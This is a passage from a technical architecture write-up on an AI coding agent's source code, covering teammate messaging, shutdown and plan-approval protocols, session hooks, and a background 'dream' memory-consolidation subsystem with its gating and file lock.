export function drainPendingMessages(taskId: string, getAppState: () => AppState, setAppState: (f: (prev: AppState) => AppState) => void): string[] {
  const task = getAppState().tasks[taskId];
  if (!isLocalAgentTask(task) || task.pendingMessages.length === 0) {
    return [];
  }
  const drained = task.pendingMessages;
  updateTaskState<LocalAgentTaskState>(taskId, setAppState, t => ({
    ...t,
    pendingMessages: []
  }));
  return drained;
}
```

### Stopped agent: auto-resume

When the target agent exists in `AppState` but has a terminal status, the `SendMessageTool` at `src/tools/SendMessageTool/SendMessageTool.ts:L823-L845` automatically resumes the agent in the background with the incoming message as its new prompt. This auto-resume mechanism is a key differentiator from the mailbox-only approach: it allows the coordinator to continue workers that have completed their initial task without manually re-dispatching them through the `AgentTool`. The response message explicitly tells the sender that the agent was stopped and has been resumed, including the output file path for monitoring.

### Broadcast message flow

The `handleBroadcast()` function at `src/tools/SendMessageTool/SendMessageTool.ts:L195-L266` sends a message to all team members except the sender. Broadcasts always use the mailbox system, not the in-process queue, because they target all team members including potentially remote ones. The function reads the team file to enumerate members, filters out the sender, and writes to each recipient's mailbox in sequence.

### Shutdown protocol

The shutdown protocol implements a request-response handshake between the team lead and a teammate. When a teammate approves shutdown at `src/tools/SendMessageTool/SendMessageTool.ts:L305-L399`, the function sends a confirmation to the team lead's mailbox and then either aborts the in-process task or calls `gracefulShutdown()` for process-based teammates. For in-process teammates, the `AbortController` is signaled, causing the teammate's query loop to exit gracefully on its next iteration. For process-based teammates, `gracefulShutdown()` is called via `setImmediate()` to allow the current tool call to complete before the process exits.

### Plan approval protocol

The plan-approval protocol allows teammates in plan mode to request the team lead's approval before proceeding to implementation. The `handlePlanApproval()` function at `src/tools/SendMessageTool/SendMessageTool.ts:L434-L476` sends an approval response via mailbox that includes the leader's permission mode, so the teammate inherits the correct permission level for implementation. If the leader is in plan mode, the teammate inherits `default` mode instead, because plan mode restricts write operations and would prevent the teammate from implementing the approved plan.

### Cross-machine bridge messages

When the `UDS_INBOX` feature flag is enabled, the `SendMessageTool` supports sending messages to Remote Control peers via the `bridge:` addressing scheme. The `checkPermissions()` method at `src/tools/SendMessageTool/SendMessageTool.ts:L585-L601` requires explicit user consent for cross-machine messages because they arrive as user prompts on the receiving Claude, which could be a prompt-injection vector. The `classifierApprovable: false` flag means that even in auto-approval mode, cross-machine messages always require human confirmation.

### Team creation and tmux-based execution

Teams are created through the `TeamCreateTool` at `src/tools/TeamCreateTool/TeamCreateTool.ts`, which accepts a `team_name` and optional `description` and `agent_type`. The tool writes a `TeamFile` to disk at `.claude/teams/{team_name}/team.json`, registers the creating agent as the team lead, and sets up the directory structure for mailbox delivery. The team file is the single source of truth for team membership, and all subsequent teammate operations (spawning, messaging, shutdown) reference it.

When teammates are spawned within a team, cc selects an execution backend based on the runtime environment. The `TmuxBackend` at `src/utils/swarm/backends/TmuxBackend.ts` spawns each teammate as a separate tmux pane within a dedicated swarm window. This gives each teammate its own terminal I/O, allowing the user to observe and interact with individual teammates while the `SendMessageTool` handles inter-teammate communication through the mailbox. The `TmuxBackend` implements a pane-creation lock (a serialized promise chain) to prevent race conditions when multiple teammates are spawned in parallel, and it assigns each pane a distinct border color matching the teammate's assigned color. The `InProcessBackend` at `src/utils/swarm/backends/InProcessBackend.ts` is an alternative that runs teammates within the same process using `LocalAgentTask`, which is the mode described in this chapter. The backend is selected at team creation time and cannot be changed afterward.

The tool name constant is defined in `src/tools/SendMessageTool/constants.ts` as `SEND_MESSAGE_TOOL_NAME = 'SendMessage'`, and the user-facing prompt at `src/tools/SendMessageTool/prompt.ts` provides the natural-language documentation for addressing modes, broadcast semantics, and protocol-response formats. The prompt explicitly instructs agents to address teammates by name (never by UUID), to avoid quoting original messages when relaying, and to use `TaskUpdate` for status rather than structured JSON messages.

### Idle hooks and teammate availability

When a teammate finishes its current query and becomes idle, the session hooks system notifies the team lead so it can dispatch new work. The `initializeTeammateHooks()` function at `src/utils/swarm/teammateInit.ts:L28-L129` registers a `Stop` function hook on behalf of the teammate. When the teammate's query loop stops (either because the task completed or the model signaled end-of-turn), the hook fires and performs two actions: it marks the teammate as inactive in the team file via `setMemberActive(teamName, agentName, false)`, and it sends an idle notification to the team lead's mailbox using `createIdleNotification()` at `src/utils/teammateMailbox.ts:L410`.

The idle notification includes the teammate's name, an `idleReason` field (set to `'available'` for normal completion), and a summary extracted from the last direct message the teammate received. This summary helps the team lead understand what the teammate was working on when it became idle, enabling intelligent re-dispatch without querying the teammate's state. The hook returns `true` so it does not block the Stop event -- the notification is fire-and-forget from the hook's perspective, though the `writeToMailbox` call is awaited to ensure the message is persisted before the process potentially shuts down.

The `renderToolUseMessage()` and `renderToolResultMessage()` functions in `src/tools/SendMessageTool/UI.tsx` handle the terminal rendering of SendMessage interactions. Plan-approval responses are rendered as a one-line summary (`approve plan from: alice` or `reject plan from: alice`), while routing metadata and request IDs are suppressed from the main message view to reduce visual noise. Error messages and simple text results are rendered in a dim color to distinguish them from the primary conversation.

## Edge cases and failure modes

### Bridge disconnection during permission prompt

The `SendMessageTool.call()` method re-checks the bridge handle at `src/tools/SendMessageTool/SendMessageTool.ts:L749-L756` because the user may take minutes to approve the permission prompt, during which the bridge could disconnect. Without this re-check, the message would be sent with a stale `from` address ("unknown"), creating confusion on the receiving end.

### Structured messages cannot be broadcast or sent cross-session

The validation logic at `src/tools/SendMessageTool/SendMessageTool.ts:L678-L696` rejects structured messages for broadcast (`to: "*"`) and cross-session delivery. This constraint prevents protocol messages (shutdown requests, plan approvals) from being misrouted to unintended recipients or across process boundaries where they could not be properly handled.

### Summary required for plain text messages

The `validateInput()` method at `src/tools/SendMessageTool/SendMessageTool.ts:L667-L676` requires a summary when the message is a plain string. The summary is displayed in the UI as a preview, so the user can scan message traffic without opening each one. Structured messages do not require a summary because they are rendered differently in the UI.

### In-process shutdown abort

For in-process teammates, the shutdown approval at `src/tools/SendMessageTool/SendMessageTool.ts:L349-L367` aborts the task's `AbortController` rather than calling `gracefulShutdown()`. This is because the teammate shares the same process as the lead -- killing the process would also kill the lead. The abort signal causes the teammate's query loop to exit gracefully on its next iteration, after completing any in-progress tool call.

### Mailbox system for inter-teammate persistence

The mailbox system provides a file-based delivery mechanism for messages between teammates. When a message cannot be delivered through the in-process queue (because the target is not in `AppState`), the `SendMessageTool` falls through to mailbox delivery. The mailbox is implemented as a write-only log: each message is appended to a file named after the recipient, and the recipient polls the file on each turn.

The mailbox serves a different purpose than the in-process queue. The in-process queue is for real-time communication between teammates that share the same process. The mailbox is for durable communication that persists across process restarts. A teammate that is resumed from a disk transcript will find its mailbox messages waiting, even if the sending teammate has already exited.

### Function hooks in the session hooks system

The `addFunctionHook()` function at `src/utils/hooks/sessionHooks.ts:L64-L108` registers an in-memory callback that executes synchronously in the agent's event loop. The function takes the hook event, a callback, an error message, and optional timeout and status message parameters. The callback receives the message array and an optional `AbortSignal`, and returns a boolean indicating whether the hook passed or blocked the operation.

```typescript
// src/utils/hooks/sessionHooks.ts:L93-L114 — Function hook registration
export function addFunctionHook(
  setAppState: (updater: (prev: AppState) => AppState) => void,
  sessionId: string,
  event: HookEvent,
  matcher: string,
  callback: FunctionHookCallback,
  errorMessage: string,
  options?: {
    timeout?: number
    id?: string
  },
): string {
  const id = options?.id || `function-hook-${Date.now()}-${Math.random()}`
  const hook: FunctionHook = {
    type: 'function',
    id,
    timeout: options?.timeout || 5000,
    callback,
    errorMessage,
  }
  addHookToSession(setAppState, sessionId, event, matcher, hook)
  return id
}
```

Function hooks are particularly useful for in-process validation that must complete before the tool executes. For example, a function hook on the `PreToolUse` event can validate tool inputs against business rules without the latency of spawning an external process. The default timeout of 5000ms prevents a misbehaving hook from blocking the agent indefinitely, but callers can override this for hooks that need more time.

### Command hooks and external process execution

Command hooks at `src/utils/hooks/sessionHooks.ts:L48-L58` run external processes rather than in-memory callbacks. They are defined with a command string (which can include template variables like `$TOOL_NAME` and `$FILE_PATH`) and an optional timeout. Command hooks are useful for integration with external linters, formatters, or security scanners that run as separate processes.

The key difference between function hooks and command hooks for in-process collaboration is latency. Function hooks execute synchronously in the same event loop, providing immediate feedback. Command hooks require spawning a child process, which adds at minimum the process startup time. For in-process teammates that need rapid validation, function hooks are the preferred mechanism. For integration with external tools, command hooks are necessary.

### The agent name registry and color assignment

The `agentNameRegistry` at `src/state/AppStateStore.ts:L163` is a `Map<string, AgentId>` property on `AppState` that maps agent names to their task IDs. When a teammate is spawned via the `AgentTool` with a `name` parameter, it registers its name in this registry (latest-wins on collision), allowing `SendMessageTool` to route messages by human-readable name rather than by task ID. The registry is stored in `AppState` so it is accessible to all in-process teammates without cross-module lookups.

Each teammate is assigned a color when it joins the team. The color is propagated through the `MessageRouting` type's `senderColor` and `targetColor` fields, allowing the terminal UI to render messages with consistent visual identity. The color assignment uses a predefined palette that ensures adjacent teammates have visually distinct colors, reducing confusion when scanning message traffic.

### Evicted task handling: resume from disk transcript

When a target agent's task has been evicted from `AppState` (which can happen when the task registry is pruned to conserve memory), the `SendMessageTool` at `src/tools/SendMessageTool/SendMessageTool.ts:L845-L860` attempts to resume the agent from its disk transcript. This is the most expensive fallback in the routing chain because it requires reading the agent's conversation history from disk and reconstructing its state.

The resume-from-transcript mechanism works by reading the JSONL session file for the evicted task, constructing a new `LocalAgentTaskState` with the conversation history, and resuming the agent in the background with the incoming message as its new prompt. This mechanism ensures that messages are not lost even when the in-process state has been pruned, but it is significantly slower than the in-process queue or auto-resume paths.

### Team file and broadcast enumeration

The `handleBroadcast()` function at `src/tools/SendMessageTool/SendMessageTool.ts:L195-L266` reads the team file to enumerate all team members before sending a broadcast message. The team file is a JSON file stored in the project's `.claude/` directory that lists the team name, the leader's session ID, and all teammate names and session IDs. This file is the single source of truth for team membership.

Broadcasts are always delivered via the mailbox system, not the in-process queue, because they must reach all team members including those that may not be in the current process. The function filters out the sender from the recipient list, preventing a teammate from receiving its own broadcast. If any individual mailbox write fails (e.g., the recipient's directory does not exist), the function logs the error but continues with the remaining recipients, ensuring that a single failure does not prevent delivery to other teammates.

## Where cc diverges from the published pattern

### No checkpoint-review protocol

HER Section 11.5 prescribes mandatory human review at 25% and 75% of task completion to catch goal misinterpretation early. cc's plan-approval protocol is optional and only fires when a teammate explicitly requests approval. There is no automatic checkpoint mechanism that pauses work for human review at predefined progress thresholds.

### File-based communication not default

HER Section 9.3 recommends file-based inter-agent communication because it maintains context fidelity better than passing state through code. cc's in-process teammates communicate primarily through the in-memory message queue (`pendingMessages`) and the mailbox system. The mailbox does write to disk, but it is a write-only-log pattern rather than the structured file exchange that HER envisions.

### Missing handoff document

HER Section 11.5 prescribes a structured handoff document that summarizes current state, what is done, what is remaining, and open questions. cc's `SendMessageTool` carries ad-hoc messages but does not enforce a handoff document format. A teammate that shuts down leaves its current state implicit in the task list, not in an explicit handoff artifact.

### Session hook lifecycle and cleanup

Session hooks are scoped to the current session and are automatically cleaned up when the session ends. The `SessionStore` at `src/utils/hooks/sessionHooks.ts:L38-L46` is a simple container with a `hooks` field that maps `HookEvent` values to arrays of `SessionHookMatcher` objects. When the session ends, the entire `SessionStore` is discarded, preventing stale hooks from affecting future sessions.

The `Map`-based `SessionHooksState` at `src/utils/hooks/sessionHooks.ts:L50-L62` uses session IDs as keys and `SessionStore` objects as values. When a session ends, the corresponding entry is removed from the map. This is an O(1) operation with `Map.delete()`, compared to an O(N) operation with the spread-copy pattern that a `Record` would require. The performance difference is negligible for individual session cleanup, but it matters during bulk cleanup (e.g., when multiple sessions are closed simultaneously during a team shutdown).

### The teammate lifecycle diagram

The complete lifecycle of an in-process teammate can be summarized in a state diagram:

```mermaid
stateDiagram-v2
    [*] --> Spawned: TeamCreateTool dispatches teammate
    Spawned --> Running: AgentTool call begins execution
    Running --> Idle: Query completes, waiting for messages
    Idle --> Running: New message received or auto-resume
    Running --> ShuttingDown: shutdown_request approved
    Idle --> ShuttingDown: shutdown_request approved
    ShuttingDown --> [*]: AbortController signaled
    Running --> [*]: Task killed by user
    Idle --> [*]: Task killed by user
```

A teammate enters the `Spawned` state when the `TeamCreateTool` dispatches it. It transitions to `Running` when the `AgentTool` call begins execution. After the query completes, the teammate transitions to `Idle`, where it waits for incoming messages. When a message arrives (either through the in-process queue or the mailbox), the teammate transitions back to `Running` and processes the message. If the team lead sends a `shutdown_request` and the teammate approves, the teammate transitions to `ShuttingDown`, which signals the `AbortController` and causes the query loop to exit gracefully on its next iteration.

### Cross-machine bridge and UDS addressing

When the `UDS_INBOX` feature flag is enabled, the `SendMessageTool` supports two additional addressing schemes. The `uds:<socket-path>` scheme sends messages to a local peer via a Unix domain socket. The `bridge:<session-id>` scheme sends messages to a Remote Control peer across process boundaries. Both schemes require explicit user consent because they arrive as user prompts on the receiving Claude, which could be a prompt-injection vector.

The `checkPermissions()` method at `src/tools/SendMessageTool/SendMessageTool.ts:L585-L601` sets `classifierApprovable: false` for cross-machine messages, meaning that even in auto-approval mode, these messages always require human confirmation. This is a critical safety measure: auto-approval modes are designed for trusted local operations, and cross-machine messages cross the trust boundary by definition.

## Developer takeaways for building a long-running agent

1. **Queue messages, do not inject them.** The `queuePendingMessage()` / `drainPendingMessages()` pattern ensures that messages are delivered at safe points in the query loop (tool-round boundaries). Injecting messages mid-execution would create race conditions and undefined behavior in the tool dispatch pipeline.

2. **Auto-resume stopped agents on message.** When a coordinator sends a follow-up message to a completed worker, the worker should automatically resume rather than requiring the coordinator to check status and re-dispatch. This reduces the cognitive load on the orchestrator and makes the system feel more like a persistent team.

3. **Require explicit consent for cross-machine messages.** Messages that cross process or machine boundaries are a prompt-injection vector. The `classifierApprovable: false` flag ensures that auto-approval modes cannot bypass this safety check.

4. **Use Map instead of Record for high-frequency mutations.** The `SessionHooksState` Map optimization eliminates O(N^2) copy overhead when multiple agents register hooks simultaneously. This is a general pattern: when a data structure is mutated frequently by concurrent agents, prefer `Map` with identity-preserving mutations over `Record` with spread copies.

5. **Inherit permission mode on plan approval.** When a teammate transitions from plan mode to implementation mode, it must not inherit plan-mode permissions (which restrict write operations). The mode-to-inherit logic (`leaderMode === 'plan' ? 'default' : leaderMode`) prevents this accidental restriction.

6. **Distinguish in-process from process-based shutdown.** In-process teammates cannot be terminated by killing the process, because they share the process with the lead. The shutdown protocol must use `AbortController` for in-process teammates and `gracefulShutdown()` for process-based teammates.
# Dream Tasks: Background Consolidation

## Overview

Dream tasks are cc's implementation of HER Pattern 4: Dream Consolidation. When the agent is idle and enough sessions have accumulated since the last consolidation, a background forked subagent reviews memory files, prunes stale entries, merges new signal into existing topic files, and reindexes the `MEMORY.md` entry point. The dream subsystem spans four files: `src/services/autoDream/autoDream.ts` (324 LOC) for the gating and dispatch logic, `src/services/autoDream/consolidationLock.ts` (140 LOC) for the file-based lock, `src/services/autoDream/consolidationPrompt.ts` (65 LOC) for the dream prompt, and `src/tasks/DreamTask/DreamTask.ts` (157 LOC) for the in-memory task state.

The dream system is cc's most sophisticated example of background processing: it operates entirely outside the main query loop, uses a filesystem-based lock to prevent concurrent consolidation across processes, and implements a three-gate system (time, sessions, lock) that ensures consolidation fires only when there is genuinely new signal to process. This three-gate design is a general pattern for any background task that must be both timely (fire when there is new data) and efficient (skip when there is nothing to consolidate).

The dream system connects to HER's Layer 8 (Learning and Adaptation) in the reference architecture. Layer 8 prescribes that progress notes should persist to files, feedback from evaluators should be recorded for future sessions, stale assumptions should be pruned as models improve, and harness configuration should be versioned and A/B tested. The dream system addresses the first two prescriptions (persisting knowledge and pruning stale assumptions) but does not feed evaluator feedback back into harness configuration.

## Data structures and contracts

### AutoDream configuration

The `isAutoDreamEnabled()` function at `src/services/autoDream/config.ts:L13-L21` determines whether background consolidation should run. It checks the user's `autoDreamEnabled` setting first; if the setting is not explicitly configured, it falls through to the `tengu_onyx_plover` GrowthBook flag. This two-layer check is why `config.ts` is intentionally kept as a leaf module with minimal imports: UI components import `isAutoDreamEnabled()` to toggle the dream indicator, and pulling in the full forked-agent chain from `autoDream.ts` would create unnecessary dependency weight in those render paths.

```typescript
// src/services/autoDream/config.ts:L13-L21 — Enabled gate for auto-dream
export function isAutoDreamEnabled(): boolean {
  const setting = getInitialSettings().autoDreamEnabled
  if (setting !== undefined) return setting
  const gb = getFeatureValue_CACHED_MAY_BE_STALE<{ enabled?: unknown } | null>(
    'tengu_onyx_plover',
    null,
  )
  return gb?.enabled === true
}
```

The `AutoDreamConfig` type at `src/services/autoDream/autoDream.ts:L58-L61` defines the two scheduling knobs:

```typescript
// src/services/autoDream/autoDream.ts:L58-L61 — Scheduling configuration for auto-dream
type AutoDreamConfig = {
  minHours: number
  minSessions: number
}
```

The defaults at `src/services/autoDream/autoDream.ts:L63-L66` require at least 24 hours and 5 sessions since the last consolidation:

```typescript
// src/services/autoDream/autoDream.ts:L63-L66 — Default scheduling thresholds
const DEFAULTS: AutoDreamConfig = {
  minHours: 24,
  minSessions: 5,
}
```

These values are overridden by the GrowthBook feature flag `tengu_onyx_plover`, with defensive per-field validation at `src/services/autoDream/autoDream.ts:L73-L93` to guard against stale cache values returning wrong types. The validation checks each field individually (`typeof raw?.minHours === 'number'` and `Number.isFinite(raw.minHours)`), because GrowthBook cache can return values from a previous experiment configuration where the field had a different type. This defensive validation pattern is used throughout cc's GrowthBook integration and prevents type errors from propagating into scheduling decisions.

### DreamTaskState

The `DreamTaskState` type at `src/tasks/DreamTask/DreamTask.ts:L25-L41` tracks the dream agent's progress in memory:

```typescript
// src/tasks/DreamTask/DreamTask.ts:L25-L41 — In-memory state for a running dream task
export type DreamTaskState = TaskStateBase & {
  type: 'dream'
  phase: DreamPhase
  sessionsReviewing: number
  /**
   * Paths observed in Edit/Write tool_use blocks via onMessage. This is an
   * INCOMPLETE reflection of what the dream agent actually changed — it misses
   * any bash-mediated writes and only captures the tool calls we pattern-match.
   * Treat as "at least these were touched", not "only these were touched".
   */
  filesTouched: string[]
  /** Assistant text responses, tool uses collapsed. Prompt is NOT included. */
  turns: DreamTurn[]
  abortController?: AbortController
  /** Stashed so kill can rewind the lock mtime (same path as fork-failure). */
  priorMtime: number
}
```

The `DreamPhase` at `src/tasks/DreamTask/DreamTask.ts:L23` is a simple two-state indicator:

```typescript
// src/tasks/DreamTask/DreamTask.ts:L23 — Phase indicator for dream progress
export type DreamPhase = 'starting' | 'updating'
```

The phase flips from `starting` to `updating` when the first Edit or Write tool_use lands, as detected by the progress watcher. This phase distinction is used by the UI to show the user whether the dream agent is still orienting or has started modifying memory files.

The `filesTouched` array at `src/tasks/DreamTask/DreamTask.ts:L32-L38` tracks which memory files the dream agent has modified. The comment explicitly acknowledges that `filesTouched` is an incomplete accounting: it only captures Edit and Write tool calls, not bash-mediated file modifications. This is an important design constraint: the dream agent's Bash tool is restricted to read-only commands, but the restriction is enforced through the `canUseTool` callback, not through Bash classifier rules. If the `canUseTool` callback were to fail or be bypassed, the dream agent could modify files via Bash without those modifications being tracked in `filesTouched`.

The `priorMtime` field stores the lock file's mtime before the dream acquired the lock. This value is used by the kill handler to roll back the lock to its pre-acquisition state if the dream is aborted, ensuring that the next consolidation attempt is not blocked by a stale lock mtime.

### DreamTurn type

The `DreamTurn` type at `src/tasks/DreamTask/DreamTask.ts:L15-L18` collapses each assistant turn into a text summary and tool-use count:

```typescript
// src/tasks/DreamTask/DreamTask.ts:L15-L18 — Collapsed representation of a dream agent turn
export type DreamTurn = {
  text: string
  toolUseCount: number
}
```

This representation strips tool inputs and outputs, keeping only the agent's reasoning text and the count of tool invocations. The `MAX_TURNS` constant at `src/tasks/DreamTask/DreamTask.ts:L12` limits the stored turns to the 30 most recent, preventing unbounded memory growth during long consolidation runs. The `addDreamTurn()` function at `src/tasks/DreamTask/DreamTask.ts:L76-L104` skips the update entirely if the turn is empty and no new files were touched, avoiding unnecessary re-renders in the UI.

### Consolidation lock

The lock file at `src/services/autoDream/consolidationLock.ts:L16-L17` uses the file's `mtime` as the `lastConsolidatedAt` timestamp. The lock body contains the holder's PID:

```typescript
// src/services/autoDream/consolidationLock.ts:L16-L19 — Lock file constants
const LOCK_FILE = '.consolidate-lock'

// Stale past this even if the PID is live (PID reuse guard).
const HOLDER_STALE_MS = 60 * 60 * 1000
```

The `HOLDER_STALE_MS` constant at `src/services/autoDream/consolidationLock.ts:L19` defines a one-hour staleness threshold. This threshold guards against PID reuse: even if the lock-holder's PID is still alive (because a different process reused the PID), the lock is considered stale after one hour and can be reclaimed. This is a pragmatic compromise between safety (not interrupting a genuinely running consolidation) and liveness (not blocking consolidation indefinitely if the lock is stuck).

## Control flow

### Three-gate system

The auto-dream system implements a three-gate cascade at `src/services/autoDream/autoDream.ts:L125-L190`, where each gate is progressively more expensive:

```mermaid
flowchart TD
    A[Per-turn trigger] --> B{Gate 1: Time}
    B -->|hoursSince less than minHours| Z[Skip - too soon]
    B -->|hoursSince at least minHours| C{Scan throttle}
    C -->|Last scan less than 10 min ago| Z
    C -->|Last scan at least 10 min ago| D{Gate 2: Sessions}
    D -->|sessions less than minSessions| Z
    D -->|sessions at least minSessions| E{Gate 3: Lock}
    E -->|Lock held by live PID| Z
    E -->|Lock available| F[Fire dream]
    F --> G[Register DreamTask]
    G --> H[Fork subagent]
    H --> I[Complete DreamTask]
```

Gate 1 (time) costs one `stat` system call -- the cheapest possible check. The `readLastConsolidatedAt()` function at `src/services/autoDream/consolidationLock.ts:L29-L36` reads the lock file's mtime, which serves as both the lock indicator and the timestamp of the last consolidation. If the mtime is too recent (less than `minHours` ago), the gate fails and the dream is skipped for this turn.

Gate 2 (sessions) requires scanning the session directory for transcripts with `mtime` after `lastConsolidatedAt`. The `listSessionsTouchedSince()` function at `src/services/autoDream/consolidationLock.ts:L118-L124` uses `listCandidates()` to find sessions, filtering by mtime and excluding agent sessions. The current session is excluded at `src/services/autoDream/autoDream.ts:L164-L165` because its mtime is always recent and would create a false positive.

Gate 3 (lock) acquires an exclusive lock file. This is the most expensive gate because it involves writing to the filesystem and potentially waiting for another process to release the lock.

### Dream lifecycle

The dream task moves through a defined lifecycle from registration to completion or failure. The following state diagram shows the full progression, including the rollback paths that restore the lock mtime when the dream is killed or fails:

```mermaid
stateDiagram-v2
    [*] --> Idle: per-turn trigger
    Idle --> Skipped: gate fails
    Skipped --> Idle: next turn
    Idle --> Registered: all gates pass
    Registered --> Starting: DreamTask registered
    Starting --> Updating: first Edit/Write tool_use
    Updating --> Completed: forked agent finishes
    Updating --> Killed: user kills from dialog
    Starting --> Killed: user kills from dialog
    Killed --> Idle: lock mtime rolled back
    Starting --> Failed: fork throws
    Failed --> Idle: lock mtime rolled back
    Completed --> [*]: inline notification sent
```

The scan throttle at `src/services/autoDream/autoDream.ts:L56` prevents the session scan from firing on every turn when the time gate passes but the session gate does not:

```typescript
// src/services/autoDream/autoDream.ts:L56 — Throttle for session scanning
const SESSION_SCAN_INTERVAL_MS = 10 * 60 * 1000
```

Without this throttle, every turn after the time gate passes would trigger a session scan, consuming I/O resources without finding enough sessions. The 10-minute throttle ensures that session scanning is bounded regardless of how frequently the agent is invoked.

### Gate openness check

The `isGateOpen()` function at `src/services/autoDream/autoDream.ts:L95-L100` checks three preconditions before any gate evaluation:

```typescript
// src/services/autoDream/autoDream.ts:L95-L100 — Pre-gate checks for auto-dream eligibility
function isGateOpen(): boolean {
  if (getKairosActive()) return false // KAIROS mode uses disk-skill dream
  if (getIsRemoteMode()) return false
  if (!isAutoMemoryEnabled()) return false
  return isAutoDreamEnabled()
}
```

KAIROS mode (a feature-gated assistant mode) uses its own dream implementation, so auto-dream is disabled when KAIROS is active. Remote mode also disables auto-dream because background consolidation should not run on a remote session where the user may not be actively watching. The `isAutoMemoryEnabled()` check ensures that the memdir system is active before attempting consolidation, because the dream agent writes its output to the memdir directory.

### Consolidation lock acquisition

The `tryAcquireConsolidationLock()` function at `src/services/autoDream/consolidationLock.ts:L46-L84` implements a two-phase commit. It reads the lock file, checks if the holder PID is alive and the lock is not stale, then writes its own PID. After writing, it re-reads the file to verify that it won the race: if two processes both wrote their PIDs, the last writer wins and the loser detects the mismatch on verification.

```mermaid
sequenceDiagram
    participant ProcessA as Process A
    participant ProcessB as Process B
    participant LockFile as .consolidate-lock

    ProcessA->>LockFile: stat() + readFile() - mtimeMs, holderPid
    ProcessB->>LockFile: stat() + readFile() - mtimeMs, holderPid
    Note over ProcessA,ProcessB: Both see stale lock with no live holder
    ProcessA->>LockFile: writeFile(PID_A)
    ProcessB->>LockFile: writeFile(PID_B)
    ProcessA->>LockFile: readFile() returns PID_B - lost race
    Note over ProcessA: PID mismatch - return null
    ProcessB->>LockFile: readFile() returns PID_B - won race
    Note over ProcessB: Return priorMtime, proceed with dream
```

The race-detection mechanism is simple but effective: after writing its PID, each process re-reads the file. If the PID in the file does not match its own, the process knows it lost the race and returns `null`. This approach does not require a separate coordination mechanism -- the lock file itself serves as the coordination primitive.

### Lock rollback on fork failure

When the forked dream agent fails (not aborted by the user), the `autoDream` runner at `src/services/autoDream/autoDream.ts:L268-L270` rolls back the lock mtime so the time gate passes again on the next turn:

```typescript
// src/services/autoDream/autoDream.ts:L268-L270 — Rollback on fork failure
failDreamTask(taskId, setAppState)
// Rewind mtime so time-gate passes again. Scan throttle is the backoff.
await rollbackConsolidationLock(priorMtime)
```

The `rollbackConsolidationLock()` function at `src/services/autoDream/consolidationLock.ts:L91-L108` either unlinks the file (if `priorMtime` was 0, meaning no lock existed before) or rewinds the mtime using `utimes()`. The rollback is critical: without it, a failed consolidation would leave the lock mtime set to the current time, and the time gate would not pass again for another `minHours`. The scan throttle provides backoff, but the mtime rollback ensures the next attempt is not unnecessarily delayed.

### Dream progress watcher

The `makeDreamProgressWatcher()` function at `src/services/autoDream/autoDream.ts:L281-L313` monitors the forked agent's messages and updates the DreamTaskState. The watcher only processes assistant messages, extracts text blocks for display, and counts tool uses. It specifically watches for Edit and Write tool calls to track which memory files were touched. This selective monitoring reduces the overhead of progress tracking: the watcher does not attempt to capture full tool inputs and outputs, which would be expensive in terms of both memory and processing time.

### DreamTask kill and lock rollback

The `DreamTask.kill()` function at `src/tasks/DreamTask/DreamTask.ts:L132-L157` aborts the dream agent and rolls back the consolidation lock. The `priorMtime` is stashed in the `DreamTaskState` when the dream is registered, so the kill handler can rewind the lock to the pre-acquisition state. This is the same rollback path used for fork failures. The kill handler checks that the task is still running before aborting, preventing a double-abort if the task has already completed or been killed.

### Dream completion notification

The dream system sends an inline completion message to the main transcript at `src/services/autoDream/autoDream.ts:L238-L248` when the dream modified files. This notification uses the same surface as the extractMemories "Saved N memories" message, providing a consistent user experience. The verb is changed from "Saved" to "Improved" to distinguish dream consolidation from the per-turn memory extraction that happens during normal agent operation.

### Consolidation prompt phases

The `buildConsolidationPrompt()` function at `src/services/autoDream/consolidationPrompt.ts:L14-L65` generates a four-phase dream prompt:

- **Phase 1 -- Orient**: The agent lists the memory directory, reads the `MEMORY.md` index, and skims existing topic files. This phase ensures the agent understands the current state of the knowledge base before attempting modifications.
- **Phase 2 -- Gather recent signal**: The agent looks for new information worth persisting, starting with daily logs (if present), then existing memories that have drifted from the codebase, then transcript search for specific context. The prompt explicitly warns against exhaustively reading transcripts: "Don't exhaustively read transcripts. Look only for things you already suspect matter."
- **Phase 3 -- Consolidate**: The agent writes or updates memory files, merging new signal into existing topic files rather than creating near-duplicates. The prompt instructs the agent to convert relative dates ("yesterday", "last week") to absolute dates so they remain interpretable after time passes, and to delete contradicted facts at the source rather than appending corrections.
- **Phase 4 -- Prune and index**: The agent updates the `MEMORY.md` index to stay under size limits. Each entry should be one line under approximately 150 characters: a title, a link, and a one-line hook. The prompt warns against writing memory content directly into the index file.

### Bash restrictions in auto-dream

The dream prompt's `extra` section at `src/services/autoDream/autoDream.ts:L216-L221` restricts the forked agent's Bash tool to read-only commands:

```typescript
// src/services/autoDream/autoDream.ts:L216-L221 — Read-only Bash restriction for dream agents
const extra = `

**Tool constraints for this run:** Bash is restricted to read-only commands (\`ls\`, \`find\`, \`grep\`, \`cat\`, \`stat\`, \`wc\`, \`head\`, \`tail\`, and similar). Anything that writes, redirects to a file, or modifies state will be denied. Plan your exploration with this in mind — no need to probe.

Sessions since last consolidation (${sessionIds.length}):
${sessionIds.map(id => `- ${id}`).join('\n')}`
```

This restriction is enforced through the `canUseTool` callback passed to `runForkedAgent()`, not through the Bash classifier. This means the restriction applies only to the dream agent's execution context and does not affect the main session's Bash tool. The prompt also includes the list of sessions since the last consolidation, giving the dream agent a hint about which transcripts to review.

## Edge cases and failure modes

### PID reuse in lock checking

The `HOLDER_STALE_MS` constant (one hour) at `src/services/autoDream/consolidationLock.ts:L19` guards against PID reuse. If a process holding the lock crashes and the PID is reused by an unrelated process, the lock would appear to be held by a live process indefinitely. The staleness threshold ensures that even if the PID is live, the lock is reclaimed after one hour. This is a pragmatic compromise: one hour is long enough that a genuine consolidation (which typically takes 5-15 minutes) will not be interrupted, but short enough that a stuck lock does not block consolidation indefinitely.

### Scan throttle prevents thundering herd

When the time gate passes but the session gate does not, the lock mtime does not advance, so the time gate would pass on every subsequent turn. The `SESSION_SCAN_INTERVAL_MS` throttle at `src/services/autoDream/autoDream.ts:L56` limits session scanning to once every 10 minutes, preventing a thundering herd of stat-and-scan operations. Without this throttle, an agent that is invoked every few seconds (e.g., during an active coding session) would trigger dozens of session scans per hour, each finding the same insufficient number of sessions.

### User kill does not double-rollback

When the user kills a dream from the background-tasks dialog, `DreamTask.kill()` aborts the agent and rolls back the lock. The `autoDream` runner at `src/services/autoDream/autoDream.ts:L260-L264` checks `abortController.signal.aborted` before attempting its own rollback. This prevents a double-rollback that would incorrectly rewind the lock mtime a second time, potentially setting it to a value older than the pre-acquisition state.

### Dream fires only on main session turns

